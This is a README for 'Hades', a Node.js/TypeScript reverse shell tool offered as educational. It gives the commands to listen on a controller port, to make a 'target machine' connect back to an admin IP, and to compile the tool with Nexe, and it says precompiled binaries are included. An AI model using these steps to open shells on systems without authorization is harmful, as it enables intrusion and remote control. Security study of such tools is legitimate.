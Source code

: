 # Hades
Simple reverse shell CLI developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

To use this program, 
1) Garb a compiled version of this program.
2) Run `Hades -a [port to listen on]` on the main machine.
3) Run `Hades -c [admin's port] [admin's ip]` on a target machine.
4) Done !

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
2) Install [Nexe](https://github.com/nexe/nexe).
3) Execute `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
4) Change `linux-x64` with the os you are using following by the [architecture of your CPU](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.).

Note that the program is already compiled in the `./bin` directory.

## Libs
Here is the list of used libraries
- `Axios` - Used to send requests.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.